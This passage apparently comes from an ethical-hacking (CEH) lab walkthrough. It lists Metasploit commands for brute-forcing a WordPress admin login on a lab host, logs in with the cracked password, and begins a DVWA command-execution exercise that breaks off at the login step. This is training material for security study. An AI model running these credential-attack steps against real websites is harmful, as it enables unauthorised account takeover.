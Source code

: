 3. Examine the results for identified usernames, especially in the 'User(s) Identified' section.

##### Metasploit Password Crack
4. Launch Metasploit:
    ```bash
    service postgresql start
    msfconsole
    ```

5. Inside Metasploit, set up the password cracking module:
    ```bash
    use auxiliary/scanner/http/wordpress_login_enum
    show options
    ```

6. Configure the module with the obtained information:
    ```bash
    set PASS_FILE password.txt
    set RHOSTS 10.10.1.22
    set RPORT 8080
    set TARGETURI http://10.10.1.22:8080/CEH
    set USERNAME admin
    ```

7. Run the module:
    ```bash
    run
    ```

8. Observe the brute-force process and note the cracked password (e.g., qwerty@123).

##### Web Application Login
9. Log in to the WordPress website using the obtained credentials:
    - URL: http://10.10.1.22:8080/CEH/wplogin.php
    - Username: admin
    - Password: qwerty@123

10. Confirm successful login and access the website content.

11. Repeat Steps 2-10 for other enumerated usernames.

- This concludes the demonstration of enumerating and hacking a web application using WPScan and Metasploit.

---
#### Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server

- Damn Vulnerable Web App (DVWA) is a PHP/MySQL web application designed to test and enhance security skills. In this task, we exploit a command-line execution vulnerability in DVWA, demonstrating the extraction of information, user account creation, privilege escalation, and remote login to the target machine.

- Open Mozilla Firefox and navigate to DVWA login page: http://10.10.1.22:8080/dvwa/login.php.

- Log in with credentials:
   - Username: admin
   - Password: password
